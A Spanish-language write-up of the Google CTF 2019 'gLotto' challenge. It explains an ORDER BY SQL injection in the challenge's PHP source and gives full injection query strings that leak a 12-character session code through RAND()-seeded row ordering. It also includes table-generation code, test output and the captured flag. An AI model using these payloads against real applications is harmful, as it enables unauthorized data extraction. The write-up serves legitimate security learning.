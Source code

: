 # Google CTF 2019 - gLotto

![](img/gLotto-001.png)

## Introducción

El reto consiste en acertar un código y ganar la lotería. Ademas se nos muestran los resultados de los sorteos de los últimos 4 meses.

El funcionamiento de la aplicación es el siguiente:
- Se genera un código aleatorio de 12 caracteres en la primera visita.
- El código se guarda en la variable de sesión `winner`.
- El usuario introduce un código y si es válido se devuelve la flag.
- Si no es válido, nos muestra cual era el código correcto.

![](img/gLotto-002.png)

## Examinando el código fuente

El reto nos proporciona su [código fuente](gLotto.php) en PHP.

Examinandolo, se observa una vulnerabilidad de Inyección SQL por el uso de la función [*escape_string*](https://www.php.net/manual/es/mysqli.real-escape-string.php) con un parámetro encerrado entre backticks, y no entre comillas simples.

```php
$db->query("SET @lotto = '$winner'");

for ($i = 0; $i < count($tables); $i++)
{
    $order = isset($_GET["order{$i}"]) ? $_GET["order{$i}"] : '';
    if (stripos($order, 'benchmark') !== false) die;
    ${"result$i"} = $db->query("SELECT * FROM {$tables[$i]} " .
        ($order != '' ? "ORDER BY `".$db->escape_string($order)."`" : ""));
    if (!${"result$i"}) die;
}
```

## Inyección en *ORDER BY*

Esta vulnerabilidad nos permite inyectar código SQL después de la instrucción *ORDER BY*, lo que nos limita en el uso de subconsultas con *UNION SELECT*.
Además, tenemos la limitación de que cada vez que visitamos la web se genera un código nuevo, lo que implica que deberemos exfiltrar este código en una única petición.

Por otro lado, existen 4 parámetros de orden distintos, uno para cada tabla, (order0, order1, order2 y order3).

## Analizando el código

Como hemos dicho anteriormente, el código consta de 12 caracteres, los cuales se forman a partir de un charset de 36 caracteres formado por números y letras mayusculas. En total existen 4,6e18 posibles códigos.

## Exfiltración

Para realizar la exfiltración, se ha utilizado la función RAND(i), en la que usaremos el código de semilla. Para ello hay que tener en cuenta el tamaño de cada una de las 4 tablas y el número de permutaciones posibles en la ordenación de sus elementos.

```
MARCH -> 8! =  40320
APRIL -> 9! = 362880
MAY   -> 7! =   5040
JUNE  -> 4! =     24
TOTAL ->    = 1.8e15
```
La cantidad de datos exfiltrados en el mejor de los casos no es suficiente para extraer todo el código, sin embargo, al ser posible realizar fuerza bruta a la aplicación, la probabilidad de acertar es suficiente, aproximadamente 1 entre 5000.

Para simplificar la extracción, se divide el código en 4 trozos de la siguiente forma, *4-4-3-1*, 4 caracteres en la primera y segunda tabla, 3 en la tercera, y 1 en la última.

Para conocer el funcionamiento de la funcion *RAND* he recreado la base de datos en un entorno local y he realizado las cálculos necesarios, además de poder probar localmente todo el proceso de inyección. [Archivo SQL](gLotto.sql)

## Generar tablas

Con el siguiente código se generan las posibles permutaciones y se obtiene el orden asociado a cada una, este orden se representa con un valor numérico.

```php
$charset = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';

$march = array();
$march['CA5G8VIB6UC9'] = '0';
$march['01VJNN9RHJAC'] = '1';
$march['1WSNL48OLSAJ'] = '2';
$march['UN683EI26G56'] = '3';
$march['YYKCXJKAK3KV'] = '4';
$march['00HE2T21U15H'] = '5';
$march['D5VBHEDB9YGF'] = '6';
$march['I6I8UV5Q64L0'] = '7';

for ($a = 0; $a < $len; $a++) {
for ($b = 0; $b < $len; $b++) {
  $word = $charset[$a].$charset[$b];
  $result = $db->query("SELECT * FROM `march` ORDER BY
    rand((ord(MID('$word',1,1))-47)*44 + (ord(MID('$word',2,1))-47))");
}}

$num = "";
while ($row = $result->fetch_array()) {
  $n = $march[$row[1]];
  $num .= $n;
}
echo "$word - $num\n";
```

## Let's SQLI!

El primer obstáculo es evitar que ordene por la columna `winner`, para ello lo anulamos utilizando `*0`.

El siguiente problema es que el parametro de la función RAND(i) debe ser númerico, y por tanto debemos convertir los caracteres a un valor numérico, de forma simple, cada carácter se convierte en un valor numérico y se multiplica por una potencia de 44, se escoje este valor por ser la distancia entre el caracter `0` y `Z` en la tabla ascii, aunque es posible utilizar cualquier otro.

```
?order0=winner`*0,rand((ord(MID(@lotto,1,1))-47)*85184 + (ord(MID(@lotto,2,1))-47)*1936 + (ord(MID(@lotto,3,1))-47)*44 + (ord(MID(@lotto,4,1))-47))#
&order1=winner`*0,rand((ord(MID(@lotto,5,1))-47)*85184 + (ord(MID(@lotto,6,1))-47)*1936 + (ord(MID(@lotto,7,1))-47)*44 + (ord(MID(@lotto,8,1))-47))#
&order2=winner`*0,rand((ord(MID(@lotto,9,1))-47)*1936 + (ord(MID(@lotto,10,1))-47)*44 + (ord(MID(@lotto,11,1))-47))#
&order3=winner`*0,rand((ord(MID(@lotto,12,1))-47))#
```

Ahora simplemente debemos comparar el resultado obtenido con las tablas generadas anteriormente para conocer los posibles candidatos.

Hacemos una prueba en el entorno local con el código, `1YS7PRY1E7S0`. Observamos como los trozos `1YS7` `PRY1` `E7S` `0` aparecen como posibles candidatos.

```
-- march: 21 --
 1YS7, 33J1, 48R2, 51CJ, 6MHM, 8Z8F, CXQ2, DGUG, EMLA, EY9H, FRTB,
 MTVO, NZMI, OFB3, P3UJ, P5FH, RHL9, V6JU, VFSB, W5WW, YBGP

-- april: 10 --
 4P75, 8D18, CLPJ, GEWU, HKNO, LYQR, OL42, PRY1, Z3Z9, ZYJ5

-- may: 8 --
 635, CDB, E7S, F3B, JUK, XW3, ZPM, ZQ1

-- june: 2 --
 0, 4

```

## Solución

El ultimo paso es automatizar el proceso en un [script](gLotto-solve.py) y ejecutarlo en bucle hasta encontrar un código válido.

```
ZIOKPJSVXMIC
You didn't win :(<br>The winning ticket was Q56J5UT2JKT3
ZZRKNVZKUUGW
You didn't win :(<br>The winning ticket was 43CFNVZK6UJW
YYWQRHNRZ4S1
You won! CTF{3c2ca0d10a5d4bf44bc716d669e074b2}
```
